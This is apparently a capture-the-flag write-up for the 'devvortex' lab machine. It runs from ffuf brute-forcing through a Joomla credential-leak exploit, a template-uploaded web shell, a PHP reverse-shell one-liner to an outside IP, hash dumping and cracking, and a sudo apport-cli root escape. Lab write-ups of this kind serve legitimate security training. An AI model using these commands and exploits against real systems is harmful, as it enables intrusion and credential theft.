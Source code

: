 this box showed an ssh and webserver

on the page there wasnt a lot,

so bruteforcing the subdomains with ffuf:
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
found a subdomain dev.devvortex.htb

then trying to bruteforce the directories with ffuf:
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://dev.devvortex.htb -H 'Host: http://dev.devvortex.htb/FFUZ' -ic -t 100

found the administrator page
on this page we know it runs joomla

here we can find the version and a list of the files:4.2.6
/administrator/manifests/files/joomla.xml

searching for the version there is a known exploit for it
https://github.com/Acceis/exploit-CVE-2023-23752

running it we get the user and password
ruby exploit.rb http://dev.devvortex.htb
lewis:P4ntherg0t1n5r3c0n##

logging in we can upload a reverse shell:
system>site template
create new file
upload the reverse shell code

then accessing it we get the shell:
/templates/cassiopeia/test.php

and we find a user logan

using this web shell we upgrade it with a reverse shell

sudo /usr/bin/php -r '$sock=fsockopen("10.10.14.207",1234);exec("/bin/sh <&3 >&3 2>&3");'
python3 -c 'import pty;pty.spawn("/bin/bash")'

then we can connect with the local mysql database
mysql -u lewis -h dev.devvortex.htb -p
show databases;
use joomla;
show tables;
describe sd4fg_users;
select username, password from sd4fg_users;

using hashcat we can crack the password
echo {hash}> hash.txt
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
logan:tequieromucho

then we can ssh into the box

sudo -l we can execute /usr/bin/apport-cli

searching for an exploit we find:
https://github.com/diego-tella/CVE-2023-1326-PoC

we just needed to create a crash file in /var/crash/acrashfile.crash
press v
and where in a vim instance and then !/bin/bash

and get a root shell